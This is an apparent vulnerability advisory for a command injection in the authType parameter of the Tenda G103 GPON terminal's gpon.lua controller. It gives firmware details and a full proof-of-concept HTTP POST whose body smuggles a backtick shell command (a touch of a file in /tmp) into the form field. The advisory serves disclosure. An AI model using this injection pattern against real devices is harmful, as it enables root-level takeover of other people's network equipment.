




# Tenda G103 Command Injection Vulnerability in `authType` Parameter of `action_set_net_settings` (gpon.lua)

## Overview

A command injection vulnerability exists in the `action_set_net_settings` function within the `gpon.lua` file of Tenda G103 GPON optical network terminals. This vulnerability arises due to improper sanitization of the `authType` parameter, which is directly concatenated into system commands without validation. Authenticated attackers can exploit this flaw to execute arbitrary system commands with root privileges, potentially leading to full device compromise.

The environment can be simulated using FirmAE:




## Details


*   **Vendor**: Tenda

*   **Product**: Tenda G103 GPON Optical Network Terminal

*   **Firmware Version**: US\_G103V1.0la\_V1.0.0.5\_TDC01

*   **Firmware Download**: [https://tenda.com.cn/material/show/2615](https://tenda.com.cn/material/show/2615)

*   **Affected Component**: `gpon.lua` (LuCI controller)

*   **Affected Function**: `action_set_net_settings`

*   **Affected Parameter**: `authType`

*   **Vulnerability Type**: Command Injection

*   **Impact**: Arbitrary command execution, authentication configuration tampering, unauthorized access, or complete device takeover

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Vulnerability Analysis

The `action_set_net_settings` function processes the `authType` parameter, which is used to configure the authentication type for GPON services. A critical security flaw exists: the `authType` parameter is passed directly to the `uci` system command without sanitization or input validation.

Key vulnerable code in `gpon.lua`:





Attackers can inject arbitrary commands by embedding shell metacharacters (e.g., backticks `` ` ``, semicolons `;`, or logical operators `&&`) in the `authType` parameter. These characters are not filtered, allowing the injected payload to be parsed and executed by the system shell when the concatenated command runs.

## Proof of Concept (PoC)

### Execute `touch` to Create a Test File


```
POST /cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/gpon/set-net-settings HTTP/1.1
Host: 192.168.0.1
Content-Length: 54
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.0.1/cgi-bin/luci/;stok=c64c61744085716b924f3c034266e7c1/admin/system/
Accept-Encoding: gzip, deflate, br
Cookie: isLogin=true; isLogin=true; sysauth=ca14c877a3df6cdc740bf4bbef3f02c1; sysauth=; repeatTimes=0; isLogin=true
Connection: keep-alive
 
authType=1`touch$IFS/tmp/authType.txt`
```

#### Execution Steps:


1.  Send the POST request above with a valid `stok` (session token) and authentication cookies.

2.  Access the device (via CLI, telnet, or another injected command) and verify the existence of `/tmp/authType.txt`.

#### Expected Result:

The file `/tmp/authType.txt` is created, confirming successful execution of the injected `touch` command.






